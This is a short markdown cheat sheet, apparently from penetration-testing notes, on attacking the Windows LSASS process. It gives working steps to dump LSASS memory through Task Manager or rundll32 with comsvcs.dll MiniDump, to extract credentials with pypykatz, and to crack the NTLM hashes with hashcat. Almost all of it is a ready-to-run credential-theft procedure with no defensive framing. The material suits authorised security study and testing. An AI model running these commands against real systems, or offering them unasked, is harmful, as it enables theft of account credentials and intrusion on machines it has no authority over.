

# Attacking LSASS

- LSASS stores credentials in memory so dumping the process memory of LSASS gives us offline cracking flexibility.

## 1. Dumping LSASS Process Memory

### METHOD 1 : Task Manager

- Open `Task Manager`
- Select the `Processes` tab
- Find and right click the `Local Security Authority Process`
- Select `Create dump file`



### METHOD 2 : PowerShell

- **STEP 1 : FIND LSASS PID**
	- Find PID of `lsass.exe` 

```powershell
Get-Process lsass
```

- **STEP 2 : CREATE DUMP FILE **
	- `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory.
	- Provide the `LSASS PID` and `LSASS savefile path` (where you want to store the LSASS process dump).

```cmd
 rundll32 C:\windows\system32\comsvcs.dll, MiniDump <LSASS PID> <LSASS savefile path> full
```

## 2. Extracting Credentials 

- Extract credentials from the dump file.
- Provide the `LSASS savefile path` where the dump file is located.

```cmd
pypykatz lsa minidump <LSASS savefile path>
```

## 3. Cracking the Hash

```bash
sudo hashcat -m 1000 <LSASS hash file> <wordlist path>
```

